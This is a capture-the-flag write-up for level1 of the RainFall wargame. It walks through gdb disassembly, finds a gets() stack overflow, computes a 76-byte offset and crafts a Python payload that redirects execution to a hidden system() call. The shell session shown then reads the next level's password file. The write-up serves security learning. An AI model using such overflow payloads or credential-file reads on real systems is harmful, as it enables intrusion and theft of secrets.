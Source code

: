 **Basic examination**

Again, only one file, "level1" to run. Let's try it.
~~~bash
./level1
|
~~~
Exacutable waits for the user input and than exits. 

**Assembly dump analysis**

The assembly dump for a main function in **gdb** tool will show us more:
~~~assembly
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp       ;stack allignment up to this point.
   0x08048486 <+6>:	sub    $0x50,%esp             ;allocates 80 bytes (0x50 in hex) to the stack
                                                  ;there would be some variable declared with memory allocated.
   0x08048489 <+9>:	lea    0x10(%esp),%eax    
   0x0804848d <+13>:	mov    %eax,(%esp)           ;moves the addressin EAX (buffer) to the top of the stack
   0x08048490 <+16>:	call   0x8048340 <gets@plt>  ;calls the gets function (reads the line of input from user
                                                   ;and stores it into the buffer.
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret                          ;pops the return address from the stack and jumps to it
~~~

As we can see, the main allocates 80 bytes on the stack, calculates the pointer to the buffer for gets, calls gets and returns, with no other procedures. This looks like a dead end and we need to examine further, so we list all the functions in gdb, using **info functions** command. From the listing, **run()** looks like our way forward, as also the assembly dump suggest by calling a system function:
~~~assembly
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>      ;writing a message
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>      ;calling system function, pattern that we identified in the                                                            ;previous level
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret  
~~~
There is no direct call from **main** to run run(), so we need to somehow force the execution workflow to run it. This will be done using **buffer overflow** (stakc frame and principles of buffer overflow beautifully explained [**HERE**](https://www.cameronwickes.co.uk/stack-frames-pointers/).  

## Buffer overflow
The memory address of the run is **0x08048444**as we can see from the previous info functions command in gdb. Now we just need and offset to get the location of the proper position to rewrite in stack frame of the program. We can use some pattern generator (like [**Wiremask**](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) along with gdb to calculate it. Running a program with dummy pattern will give us a segfault, but gdb will tell us it happens at **0x63413563**. We put this to Wiremask tool to find out the offset is 76.
Now we can create a string to send to the program that will contain the memory address of the run() function right after the offset, thus forcing it to execute as return address. We can do this using a simple python script and a pipe to send the output to the program as stdin:
~~~bash
level1@RainFall:~$ python -c 'print "42" * 38 + "\x08\x04\x84\x44"[::-1]' > /tmp/exploit   <-- prints 76 bytes + mem address using little endian as proper format (python will reverse bytes using[::-1])
level1@RainFall:~$ cat /tmp/exploit - | ./level1                                           <-- cats the file as stdin ("-") and sends it to the execution of the program
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
~~~



